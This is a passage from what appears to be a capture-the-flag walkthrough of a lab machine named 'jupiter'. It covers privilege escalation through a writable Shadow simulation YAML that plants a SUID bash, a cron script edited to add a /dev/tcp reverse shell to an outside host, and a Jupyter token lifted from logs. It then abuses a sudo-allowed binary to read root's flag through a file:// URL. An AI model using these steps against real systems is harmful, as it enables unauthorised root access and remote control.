╔══════════╣ Analyzing Cache Vi Files (limit 70)
                                                                                                                                                                                                                                                             
-rw------- 1 postgres postgres 817 Mar  7 12:32 /var/lib/postgresql/.viminfo

╔══════════╣ Analyzing Grafana Files (limit 70)
-rw-r----- 1 root grafana 54096 Mar  7 11:49 /etc/grafana/grafana.ini   

╔══════════╣ Analyzing Sentry Files (limit 70)
drwxr-xr-x 3 root root 4096 May 30 13:49 /usr/share/grafana/public/app/core/services/echo/backends/sentry      


╔══════════╣ Unexpected in /opt (usually empty)
total 12                                                                                                                                                                                                                                                     
drwxr-xr-x  3 root   root    4096 May  4 18:59 .
drwxr-xr-x 19 root   root    4096 May  4 18:59 ..
drwxrwx---  4 jovian science 4096 May  4 18:59 solar-flares


╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                                            
/dev/mqueue                                                                                                                                                                                                                                                  
/dev/shm
/dev/shm/network-simulation.yml
/dev/shm/PostgreSQL.2836261528
/etc/postgresql
/etc/postgresql/14
/etc/postgresql/14/main
/etc/postgresql/14/main/conf.d
/etc/postgresql/14/main/environment
/etc/postgresql/14/main/pg_ctl.conf
/etc/postgresql/14/main/pg_hba.conf
/etc/postgresql/14/main/pg_ident.conf
#)You_can_write_even_more_files_inside_last_director
```

From here I had to check  for tips and apparently I was missing some files to check, specifically that /Dev/SHM folder path:

```
postgres@jupiter:/$ ls -al /dev/shm/
ls -al /dev/shm/
total 32
drwxrwxrwt  3 root     root       100 Aug 29 10:20 .
drwxr-xr-x 20 root     root      4020 Aug 29 07:34 ..
-rw-rw-rw-  1 juno     juno       815 Mar  7 12:28 network-simulation.yml
-rw-------  1 postgres postgres 26976 Aug 29 07:34 PostgreSQL.2836261528
drwxrwxr-x  3 juno     juno       100 Aug 29 10:20 shadow.data
postgres@jupiter:/$
```

As we see we have juno that left that yaml file. We have write permission and we can copy bash into /tmp/bash and then use this automated script to gain access as juno:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# cat network-simulation.yml 
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /tmp/yovecio
      args: +s 
      start_time: 5s
```

We can see this from pspy:

```
2023/08/29 10:36:01 CMD: UID=0     PID=21464  | /usr/sbin/CRON -f -P 
2023/08/29 10:36:01 CMD: UID=0     PID=21465  | /usr/sbin/CRON -f -P 
2023/08/29 10:36:01 CMD: UID=1000  PID=21467  | rm -rf /dev/shm/shadow.data 
2023/08/29 10:36:01 CMD: UID=1000  PID=21466  | /bin/bash /home/juno/shadow-simulation.sh 
2023/08/29 10:36:01 CMD: UID=1000  PID=21468  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/08/29 10:36:01 CMD: UID=1000  PID=21471  | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/08/29 10:36:01 CMD: UID=1000  PID=21472  | lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/08/29 10:36:01 CMD: UID=1000  PID=21477  | /usr/bin/python3 -m http.server 80 
2023/08/29 10:36:01 CMD: UID=1000  PID=21478  | /usr/bin/curl -s server 
2023/08/29 10:36:01 CMD: UID=1000  PID=21480  | /usr/bin/curl -s server 
2023/08/29 10:36:01 CMD: UID=1000  PID=21482  | /usr/bin/curl -s server
```

Which mean that if we add that code then we should be able to gain a SUID on bash and elevate as JUNO:

```
//We find the chmod path
postgres@jupiter:/dev/shm$ which chmod
/usr/bin/chmod
postgres@jupiter:/dev/shm$ 


//Then we adapt the script to add SUID bit to /tmp/yovecio(copy of bash)
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp     
      args: /bin/bash /tmp/yovecio
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/yovecio
      start_time: 5s 
    processes:
    - path: /urs/bin/chmod  
      args: u+s /tmp/yovecio
      start_time: 5s
```

Next we wait a big and we should get a SUID on /tmp/yovecio:

```
postgres@jupiter:/tmp$ ls -al
total 8020
drwxrwxrwt 16 root     root        4096 Aug 29 11:54 .
drwxr-xr-x 19 root     root        4096 May  4 18:59 ..
-rwsr-xr-x  1 juno     juno     1396520 Aug 29 10:56 bash
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .font-unix
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .ICE-unix
-rwx------  1 postgres postgres  836054 Jun  4 04:27 linpeas.sh
-rw-------  1 postgres postgres     840 Aug 29 11:18 network-simulation1.yml
-rw-------  1 postgres postgres     832 Aug 26 10:12 network-simulation.yml
-rwx------  1 postgres postgres 3104768 Jan 17  2023 pspy64
-rw-------  1 juno     juno          87 Aug 29 11:42 shadow-28533-hosts-FQnddv
drwx------  2 root     root        4096 Aug 29 07:34 snap-private-tmp
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-grafana-server.service-a2Foh3
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-ModemManager.service-1KVpqK
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-logind.service-If2xLF
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-resolved.service-zmPgUg
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-timesyncd.service-kyZ36A
drwx------  3 root     root        4096 Aug 29 07:57 systemd-private-b1a5f797968a4fdcabd51d6392b27344-upower.service-8LzriQ
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .Test-unix
drwx------  2 postgres postgres    4096 Aug 29 09:15 tmux-114
drwx------  2 root     root        4096 Aug 29 07:34 vmware-root_819-4290101131
-rwxr-xr-x  1 juno     juno     1396520 Aug 29 11:14 whobash
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .X11-unix
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .XIM-unix
-rwsr-xr-x  1 juno     juno     1396520 Aug 29 11:54 yovecio
postgres@jupiter:/tmp$
```

and now we can elevate to suid and get suid:

```
yovecio-5.1$ cat shadow-simulation.sh 
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1
yovecio-5.1$
```

The problem here is that we can't do much cause we don't have a full type shell so I edited the shadow-simulation.sh which is called by a cron job and with this we can get a full workign shell:

```
yovecio-5.1$ cat shadow-simulation.sh 
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1
yovecio-5.1$
```

and doing so we can get our first shell:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.216] 50122
bash: cannot set terminal process group (31694): Inappropriate ioctl for device
bash: no job control in this shell
juno@jupiter:/dev/shm$ cd /home
cd /home
juno@jupiter:/home$ ls
ls
jovian
juno
juno@jupiter:/home$ cd juno
cd juno
juno@jupiter:~$ ls
ls
shadow
shadow-simulation.sh
user.txt
juno@jupiter:~$ cat user.txt
cat user.txt
```

# ROOT.txt

Now we know from initial configuration att both juno and jovian were part of the "science" group and we know that we found and interesting file under /otp. But first we should check if we can see some strange cron jobs in background:

```
2023/08/29 12:19:58 CMD: UID=0     PID=1171   | sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
2023/08/29 12:19:58 CMD: UID=1001  PID=1170   | /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb 
2023/08/29 12:19:58 CMD: UID=0     PID=1152   | /usr/sbin/cron -f -P 
2023/08/29 12:19:58 CMD: UID=0     PID=912    | /usr/sbin/ModemManager
```

Checking the script we can see that this is about a jupyter notebook:

```
juno@jupiter:/opt/solar-flares$ cat start.sh 
#!/bin/bash
now=`date +"%Y-%m-%d-%M"`
jupyter notebook --no-browser /opt/solar-flares/flares.ipynb 2>> /opt/solar-flares/logs/jupyter-${now}.log &
juno@jupiter:/opt/solar-flares$
```

Checking the logs folder we could grab a token from jupiter that could gave us full access to the notebook:

```
juno@jupiter:/opt/solar-flares/logs$ cat jupyter-2023-08-29-34.log
[W 07:34:13.981 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 07:34:13.990 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 07:34:13.990 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 07:34:13.990 NotebookApp] http://localhost:8888/?token=9c025bf96587b66e6fe0b76b6df8b7eac6b724f0378b8418
[I 07:34:13.990 NotebookApp]  or http://127.0.0.1:8888/?token=9c025bf96587b66e6fe0b76b6df8b7eac6b724f0378b8418
[I 07:34:13.991 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 07:34:13.997 NotebookApp] No web browser found: could not locate runnable browser.
[C 07:34:13.997 NotebookApp] 
    
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1170-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=9c025bf96587b66e6fe0b76b6df8b7eac6b724f0378b8418
     or http://127.0.0.1:8888/?token=9c025bf96587b66e6fe0b76b6df8b7eac6b724f0378b8418
[I 12:27:40.431 NotebookApp] 302 GET / (127.0.0.1) 0.680000ms
[I 13:21:05.339 NotebookApp] 302 GET / (127.0.0.1) 1.830000ms
[I 13:21:05.523 NotebookApp] 302 GET /tree? (127.0.0.1) 1.790000ms
[W 13:23:18.647 NotebookApp] 401 POST /login?next=%2Ftree%3F (127.0.0.1) 38.890000ms referer=http://127.0.0.1:8888/login?next=%2Ftree%3F
[W 13:23:32.332 NotebookApp] 401 POST /login?next=%2Ftree%3F (127.0.0.1) 2.600000ms referer=http://127.0.0.1:8888/login?next=%2Ftree%3F
[W 13:23:45.970 NotebookApp] 401 POST /login?next=%2Ftree%3F (127.0.0.1) 3.100000ms referer=http://127.0.0.1:8888/login?next=%2Ftree%3F
[I 13:26:31.505 NotebookApp] 302 GET /?token=3fdb3a61fcbd3d798b1e544e65506679f1b3afe4c3d64ec0 (127.0.0.1) 0.840000ms
[I 13:26:31.634 NotebookApp] 302 GET /tree?token=3fdb3a61fcbd3d798b1e544e65506679f1b3afe4c3d64ec0 (127.0.0.1) 0.990000ms
[W 13:29:36.653 NotebookApp] 401 POST /login?next=%2Ftree%3Ftoken%3D3fdb3a61fcbd3d798b1e544e65506679f1b3afe4c3d64ec0 (127.0.0.1) 2.770000ms referer=http://localhost:8888/login?next=%2Ftree%3Ftoken%3D3fdb3a61fcbd3d798b1e544e65506679f1b3afe4c3d64ec0
```

We know we have port 3000 that internally was the grafana server and 8888 that we know is Jupyter server. I guess we have to use socat or Chisel to perform a port forward in order to open port to us!



And now we should be able to login and then we can see a python file that is running: 



We are logged in as jonos and my idea is to run python code and hopefully we can catch a new shell:



And now we are Jovian:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 7777                                                                                                                                                                            
listening on [any] 7777 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.216] 49502
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:/opt/solar-flares$ id
id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
jovian@jupiter:/opt/solar-flares$
```

Running sudo -l we can list what are the sudo permissions that jovian can do:

```
jovian@jupiter:/$ sudo -l
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
jovian@jupiter:/$
```

Running the program shows that it missing a config file:

```
jovian@jupiter:~$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
jovian@jupiter:~$
```

Let's try to use strace to check if we can intercept where is this config pointing to?

```
futex(0x7f36952db77c, FUTEX_WAKE_PRIVATE, 2147483647) = 0
newfstatat(1, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x7), ...}, AT_EMPTY_PATH) = 0
write(1, "Satellite Tracking System\n", 26Satellite Tracking System
) = 26
newfstatat(AT_FDCWD, "/tmp/config.json", 0x7ffd138dc9a0, 0) = -1 ENOENT (No such file or directory)
write(1, "Configuration file has not been "..., 57Configuration file has not been found. Please try again!
) = 57
getpid()                                = 34843
exit_group(1)                           = ?
+++ exited with 1 +++
```

Ok can we try to add that file manually under /tmp?

```
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Malformed JSON conf: [json.exception.parse_error.101] parse error at line 1, column 1: syntax error while parsing value - unexpected end of input; expected '[', '{', or a literal
jovian@jupiter:/tmp$
```

Let's check if we can dfind that file:

```
jovian@jupiter:/tmp$ find / -type f -name config.json 2> /dev/null 
/usr/local/share/sattrack/config.json
/usr/local/lib/python3.10/dist-packages/zmq/utils/config.json
/tmp/config.json
```

```
jovian@jupiter:/tmp$ cat config.json 
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://celestrak.org/NORAD/elements/weather.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

If we run the app now:

```
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats
jovian@jupiter:/tmp$ ll
total 18812
drwxrwxrwt 17 root     root        4096 Aug 29 14:22 ./
drwxr-xr-x 19 root     root        4096 May  4 18:59 ../
-rwsr-xr-x  1 juno     juno     1396520 Aug 29 10:56 bash*
-rwxrwxr-x  1 juno     juno     8384512 Jan 28  2023 chisel*
-rw-r--r--  1 jovian   jovian       610 Aug 29 14:17 config.json
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .font-unix/
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .ICE-unix/
-rwx------  1 postgres postgres  836054 Jun  4 04:27 linpeas.sh*
-rw-------  1 postgres postgres     840 Aug 29 11:18 network-simulation1.yml
-rw-------  1 postgres postgres     832 Aug 26 10:12 network-simulation.yml
-rwxrwxr-x  1 juno     juno     2940928 Jan 17  2023 pspy32*
-rwx------  1 postgres postgres 3104768 Jan 17  2023 pspy64*
-rwxr-xr-x  1 jovian   jovian   1113632 Aug 29 14:00 sattrack*
-rw-------  1 juno     juno          87 Aug 29 11:42 shadow-28533-hosts-FQnddv
drwx------  2 root     root        4096 Aug 29 07:34 snap-private-tmp/
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-grafana-server.service-a2Foh3/
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-ModemManager.service-1KVpqK/
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-logind.service-If2xLF/
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-resolved.service-zmPgUg/
drwx------  3 root     root        4096 Aug 29 07:34 systemd-private-b1a5f797968a4fdcabd51d6392b27344-systemd-timesyncd.service-kyZ36A/
drwx------  3 root     root        4096 Aug 29 07:57 systemd-private-b1a5f797968a4fdcabd51d6392b27344-upower.service-8LzriQ/
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .Test-unix/
drwxr-xr-x  2 root     root        4096 Aug 29 14:20 tle/
drwx------  2 postgres postgres    4096 Aug 29 09:15 tmux-114/
drwx------  2 root     root        4096 Aug 29 07:34 vmware-root_819-4290101131/
-rwxr-xr-x  1 juno     juno     1396520 Aug 29 11:14 whobash*
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .X11-unix/
drwxrwxrwt  2 root     root        4096 Aug 29 07:34 .XIM-unix/
jovian@jupiter:/tmp$ ll tle/
total 8
drwxr-xr-x  2 root root 4096 Aug 29 14:20  ./
drwxrwxrwt 17 root root 4096 Aug 29 14:22  ../
-rw-r--r--  1 root root    0 Aug 29 14:20 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-r--r--  1 root root    0 Aug 29 14:20  noaa.txt
-rw-r--r--  1 root root    0 Aug 29 14:19  weather.txt
jovian@jupiter:/tmp$ cat
```

As we can see it tried to wget the files from URLs from "tlesources" and it saved the output to /tmp/tle so it might work if we change the file to point to /root/root.txt?

```
jovian@jupiter:/tmp$ cat config.json 
cat config.json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file://root/root.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

Now running the binary as sudo should be able to dump the fille:

```
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 file://root/root.txt

Get:0 http://celestrak.org/NORAD/elements/noaa.txt


Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats
jovian@jupiter:/tmp$ cd tle
cd tle
jovian@jupiter:/tmp/tle$ ls
ls
'gp.php?GROUP=starlink&FORMAT=tle'   noaa.txt   root.txt   weather.txt
jovian@jupiter:/tmp/tle$ cat root.txt
cat root.txt
jovian@jupiter:/tmp/tle$ ls -al
ls -al
total 8
drwxr-xr-x  2 root root 4096 Aug 29 14:28  .
drwxrwxrwt 17 root root 4096 Aug 29 14:28  ..
-rw-r--r--  1 root root    0 Aug 29 14:29 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-r--r--  1 root root    0 Aug 29 14:28  noaa.txt
-rw-r--r--  1 root root    0 Aug 29 14:28  root.txt
-rw-r--r--  1 root root    0 Aug 29 14:19  weather.txt
jovian@jupiter:/tmp/tle$
```

Next I removed all the other links except the local file:



Then I noticed that there was a misstypo it should be "file:// path to file" and now running again the file get's us a full root access:

```
jovian@jupiter:/tmp/tle$ ls -al
ls -al
total 12
drwxr-xr-x  2 root root 4096 Aug 29 14:28  .
drwxrwxrwt 17 root root 4096 Aug 29 14:40  ..
-rw-r--r--  1 root root    0 Aug 29 14:29 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-r--r--  1 root root    0 Aug 29 14:39  noaa.txt
-rw-r--r--  1 root root   33 Aug 29 14:39  root.txt
-rw-r--r--  1 root root    0 Aug 29 14:19  weather.txt
jovian@jupiter:/tmp/tle$ cat root.txt
cat root.txt
7ccdb1d08a8417bdbe99874aa5d8fa7f
```